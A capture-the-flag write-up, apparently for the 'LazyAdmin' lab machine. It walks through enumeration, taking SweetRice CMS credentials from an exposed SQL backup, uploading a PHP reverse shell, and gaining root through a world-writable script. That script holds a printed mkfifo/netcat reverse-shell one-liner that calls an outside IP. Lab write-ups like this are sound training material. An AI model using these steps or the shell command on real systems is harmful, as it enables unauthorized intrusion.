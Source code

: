 # LazyAdmin

## Enumeration

We starting enumarating the open port with *nmap*.

```shell
$ sudo nmap -p- -n -Pn -sS --min-rate 2000 $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-11 23:07 -05
Warning: 10.10.141.185 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.141.185
Host is up (0.41s latency).
Not shown: 65468 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 74.33 seconds
```

Wee see a default *apache* page, we will fuzz with *gobuster* to find directories.

```shell
$ gobuster dir -u http://10.10.141.185/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.185/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/content              (Status: 301) [Size: 316] [--> http://10.10.141.185/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

We fin the **content** dorectory.

![content](./images/content.png)

## Vulnerability Exploitation

This home page gives us a clue, **SweetRice**. searching we find that **SweetRice** is simple website management system, its github is https://github.com/sweetrice/SweetRice.

![sweetrice-github.png](./images/sweetrice-github.png)

The 2 important directories are **as** and **inc**.

In **as** we can find a login page, then we need find crendentials.

![as-login](./images/as-login.png)

In **inc** we can find a list of files and directories, and we can see a backip in the mysql_backup directory.

![mysql_backup](./images/mysql-backup.png)

Downliad the sql file, we can use: `wget http://10.10.141.185/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`. and we can find a user and hahed password.

```shell
$ grep admin mysql_bakup_20191129023059-1.5.1.sql 
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";
s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";
s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website
management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and
uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed
\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\"
s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

| user    | hahed password                   |
|---------|----------------------------------|
| manager | 42f749ade7f9e195bf475f37a44cafcb |

We use https://crackstation.net/ to cracker the hash and logging.

![dashboard](./images/dashboard.png)

Scanning the website we found that we can add files in the **ads** section. and we add the rever shell of pentestmonkey from https://www.revshells.com/.

![revshell](./images/revshell.png)

The revsehll file is in **/inc/ads/** directory.

![ads-directory](./images/ads-directory.png)

We execute the rever shell and we are inside the machine.

```shell
$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.100.192] from (UNKNOWN) [10.10.141.185] 50254
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 08:08:07 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We can read the user flag in /home/itguy and we can see something else, we can exexute **backup.pl**.

```shell
www-data@THM-Chal:/home/itguy$ ls -al
total 148
drwxr-xr-x 18 itguy itguy 4096 Nov 30  2019 .
drwxr-xr-x  3 root  root  4096 Nov 29  2019 ..
...
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
-rw-r--r--  1 itguy itguy 8980 Nov 29  2019 examples.desktop
-rw-rw-r--  1 itguy itguy   16 Nov 29  2019 mysql_login.txt
-rw-rw-r--  1 itguy itguy   38 Nov 29  2019 user.txt
```

## Privilege Escalation

If we can see the user's privileges.

```shell 
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

We can execute the file we found and perl as root, but we can't write to the file, we'll check that.

```shell
www-data@THM-Chal:/home/itguy$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ ls -al /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ 
```

The **backup.pl** file execute the **copy.sh** file and we can **write** in **copy.sh**, and this file is a rever shell, we change the ip for our ip.

![root](./images/root.png)
